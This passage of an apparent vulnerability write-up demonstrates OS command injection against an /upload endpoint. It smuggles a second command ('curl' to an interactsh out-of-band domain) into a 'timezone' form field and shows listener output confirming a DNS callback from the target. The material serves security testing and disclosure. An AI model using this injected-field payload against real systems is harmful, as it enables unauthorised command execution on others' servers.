 Let's re-check that test using our interactsh client:

```bash
interactsh-client -v

    _       __                       __       __  
   (_)___  / /____  _________ ______/ /______/ /_ 
  / / __ \/ __/ _ \/ ___/ __ '/ ___/ __/ ___/ __ \
 / / / / / /_/  __/ /  / /_/ / /__/ /_(__  ) / / /
/_/_/ /_/\__/\___/_/   \__,_/\___/\__/____/_/ /_/

		projectdiscovery.io

[INF] Current interactsh version 1.1.9 (latest)
[INF] Listing 1 payload for OOB Testing
[INF] cp6f0fcevnbs87tv6ko0jw41icdjimes5.oast.site

```

and run our PoC:

```bash
curl -v -X POST http://x.y.z/upload \
-H "Host: x.y.z" \
-H "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ar; rv:1.9.2) Gecko/20100115 Firefox/3.6" \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Accept-Encoding: gzip" \
--data-urlencode "logtype=XML" \
--data-urlencode "timezone=1;curl http://cp6f0fcevnbs87tv6ko0jw41icdjimes5.oast.site;" 
```

and we get the response:

```bash
interactsh-client -v

    _       __                       __       __  
   (_)___  / /____  _________ ______/ /______/ /_ 
  / / __ \/ __/ _ \/ ___/ __ '/ ___/ __/ ___/ __ \
 / / / / / /_/  __/ /  / /_/ / /__/ /_(__  ) / / /
/_/_/ /_/\__/\___/_/   \__,_/\___/\__/____/_/ /_/

		projectdiscovery.io

[INF] Current interactsh version 1.1.9 (latest)
[INF] Listing 1 payload for OOB Testing
[INF] cp6f0fcevnbs87tv6ko0jw41icdjimes5.oast.site
[cp6f0fcevnbs87tv6ko0jw41icdjimes5] Received DNS interaction (A) from 91.108.8.3 at 2024-05-21 19:05:32
-----------
DNS Request
-----------

;; opcode: QUERY, status: NOERROR, id: 36887
;; flags:; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;cp6f0fcevnbs87tv6ko0jw41icdjimes5.oast.site.	IN	 A


------------
DNS Response
------------

;; opcode: QUERY, status: NOERROR, id: 36887
;; flags: qr aa; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2
```